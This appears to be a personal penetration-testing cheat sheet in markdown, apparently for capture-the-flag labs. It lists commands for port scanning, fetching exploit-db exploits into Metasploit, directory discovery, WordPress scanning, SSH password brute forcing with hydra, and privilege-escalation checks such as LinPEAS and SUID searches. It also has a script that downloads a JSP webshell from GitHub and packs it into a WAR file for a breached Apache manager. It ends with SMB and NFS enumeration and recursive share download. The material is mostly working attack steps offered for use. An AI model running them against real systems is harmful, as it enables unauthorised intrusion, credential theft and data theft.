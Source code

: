 # Starting Penetration

```msfconsole```

To Open metasploit console

## Port Scan

```nmap IP -sV -sC -p- --min-rate 20000```

alternate

```nmap IP -T4 -A -v```

-p- to scan all ports

20k rate probably way too high. Reduce to reduce risk of alerting firewall.

-sS for TCP SYN Scan

-sV to show services related to each port


### Get Version of Service

NetCat

```nc IP PORT```


### Find Exploits with SearchSploit

```searchsploit servicename version```

### Add new modules to metasploit from exploit-db

Get path from searchsploit

```curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME```



### Metadata

```exiftool file```

### Web Server:


#### Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt```

#### Replicate website on local storage

```wget http://ip/ -r```

#### Wordpress vulnerability checker

```wpscan --url URL```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## SSH

### SSH with RSA file

```ssh -i /path/to/file user@IP```


#### Brute Forcing Passwords

```hydra -l USER -P /path/to/wordlist ssh://IP```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


## Apache

### After /manager breach

#### Make Offensive WAR file

```#!/bin/sh
wget https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp -O index.jsp
rm -rf wshell
rm -f wshell.war
mkdir wshell
cp index.jsp wshell/
cd wshell
jar -cvf ../wshell.war *```



## Attempt to Elevate permissions after entry

##### Run Inside of Meterpreter

```run post/multi/recon/local_exploit_suggester```

Gives readout of possible vulnerabilities of connected host

### NFS (RPCBIND?)

Enumerate NFS shares.

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98```



### Linux Specific

whoami

#### LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```scp /home/mike/linpeas.sh USER@IP:/home/USER```
```./linpeas.sh```

#### Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```find / -perm -u=s -type f 2>/dev/null```



### Samba share

##### Quick Enumeration

```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP```

Change port to match nmap results. (Usually 139 or 445)

##### Deep Enumeration

```enum4linux -a IP | tee enum4linux.log```


#### Inspect Samba Share

```smbclient //ip/sambashare```


#### Recursively download the SMB share

```smbget -R smb://ip/sambashare```

